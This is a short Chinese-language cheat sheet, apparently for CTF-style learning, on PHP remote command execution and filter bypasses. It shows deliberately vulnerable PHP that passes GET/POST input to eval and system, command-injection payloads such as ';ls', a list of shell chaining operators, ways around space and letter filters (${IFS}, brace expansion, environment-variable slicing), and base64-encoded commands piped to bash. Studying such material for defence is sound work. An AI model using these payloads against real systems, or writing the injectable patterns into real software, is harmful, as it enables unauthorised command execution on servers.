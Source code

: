 <h3 id="twNA2">bypass</h3>
<h4 id="PONaq">bypass-1 基础</h4>

```java
<?php
eval($_GET[unjoke]);
?>
// unjoke=system("ls");

<?php
system($_POST[unjoke]);
?>
// unjoke=ls
```

这种rce没有任何的waf，这个时候我们只需要传入对应的执行就行了

<h4 id="XKkQL">bypass-2 命令拼接</h4>

```java
<?php
$cmd = "ping " . $_GET['unjoke'];
system($cmd);
?>

// unjoke=;ls
```

在linux中我们是支持命令拼接的，如下就是常见的拼接字符

```java
;：命令结束后执行下一条

&&：前一个成功再执行后一个

|：管道符

||：前一个失败才执行后一个

&：后台执行
```

<h4 id="IC5ok">bypass-3 常见过滤绕过</h4>

```java
过滤空格 → 使用 ${IFS}、${IFS%??}、$'\x20'
在 Bash、sh 等 Shell 环境中，IFS 定义了当 shell 解析字符串时用来分隔字段的字符。默认值是一个空格（space）、制表符（tab）和换行符（newline）。
● >  <  <> 重定向符
● %20(space)
● %09(相当于tab键)
● $IFS$9 
● ${IFS}（最好用这个）
● $IFS  
● {cat,flag.txt} 在大括号中逗号可起分隔作用


过滤字母 → 用环境变量组合，比如 ${PATH:0:1}、${HOME:0:1}

URL 编码：%0a, %0d

Base64 编码执行：echo bHM= | base64 -d | bash
```
